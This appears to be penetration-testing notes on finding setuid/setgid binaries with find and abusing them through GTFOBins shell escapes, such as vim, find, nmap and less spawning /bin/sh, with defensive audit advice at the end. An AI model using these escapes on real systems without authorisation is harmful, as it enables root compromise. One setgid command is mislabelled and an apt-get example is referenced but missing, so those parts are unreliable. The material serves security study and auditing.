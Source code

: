 Setuid/Setgid Enumeration

```bash
# Find setuid files owned by root
find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null

# Find setgid files owned by root
find / -user root -perm -6000 -exec ls -ldb {} \; 2>/dev/null

# Find all setuid files (regardless of owner)
find / -perm -4000 -exec ls -ldb {} \; 2>/dev/null

# Find all setgid files (regardless of owner)
find / -perm -2000 -exec ls -ldb {} \; 2>/dev/null
```

[GTFObins](https://gtfobins.github.io/) Check (Manual - Check each binary against GTFObins)

Example: If `/usr/bin/vim` has the setuid bit:
Check GTFObins for "vim"

```bash
# Example of GTFObins Usage (if vim is setuid and in GTFObins):
vim -c ':!/bin/sh'

# Example of GTFObins Usage (if nmap is setuid and in GTFObins):
nmap --interactive
!sh

# Example of GTFObins Usage (if find is setuid and in GTFObins):
find / -exec /bin/sh -p \; -quit

# Example of GTFObins Usage (if less is setuid and in GTFObins):
less /etc/passwd
!/bin/sh
```

## **Understanding setuid and setgid**

- **setuid (Set User ID):**
    - When a file has the `setuid` bit set, it executes with the effective user ID of the file's owner, not the user who runs it.
    - If the owner is root, the program runs with root privileges.
    - Represented by an "s" in the owner's execute permissions (e.g., `-rwsr-xr-x`).
    - - Command to find setuid files owned by root:
```sh
     find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null
```
- **setgid (Set Group ID):**
    - Similar to `setuid`, but it sets the effective group ID to the file's group owner.
    - Useful for giving users temporary access to group-owned resources.
    - Represented by an "s" in the group's execute permissions (e.g. `-rwxr-sr-x`).
    - Command to find setgid files owned by root: 
```sh
    find / -user root -perm -6000 -exec ls -ldb {} \; 2>/dev/null
```

### **Privilege Escalation Potential**

- If a `setuid` binary owned by root has a vulnerability, a regular user can exploit it to gain root privileges.
- Common vulnerabilities include:
    - Buffer overflows.
    - Format string vulnerabilities.
    - Unsafe use of system calls.
    - Path abuse.
- `setgid` can be used to gain the groups privileges.

## **[GTFOBins](https://gtfobins.github.io/): A Crucial Resource**

- GTFOBins (gtfobins.github.io) is a curated list of Unix binaries that can be used to bypass security restrictions in misconfigured systems.
- It provides examples of how to:
    - Escape restricted shells.
    - Escalate privileges.
    - Spawn shells.
    - Transfer files.
- The example given, using apt-get, is a very strong example of how GTFObins can be used.
- The key to using GTFObins is to enumerate the binaries that are on a target system, and then to check if those binaries have any exploits within GTFObins.

#### **Important Considerations**

- **Security Risk:** `setuid` and `setgid` can be significant security risks if not configured carefully.
- **Minimal Privileges:** Always follow the principle of least privilege. Only grant the necessary permissions.
- **Regular Audits:** Regularly audit `setuid` and `setgid` files to identify and mitigate potential risks.
- **Code Review:** If custom `setuid` or `setgid` programs are developed, conduct thorough code reviews to ensure they are secure.
- When finding a setuid or setgid binary, always check if it is within GTFObins.

**In essence, `setuid` and `setgid` are powerful tools that must be used with caution. GTFObins is an essential resource for penetration testers and security professionals to identify and exploit misconfigurations related to these permissions.**


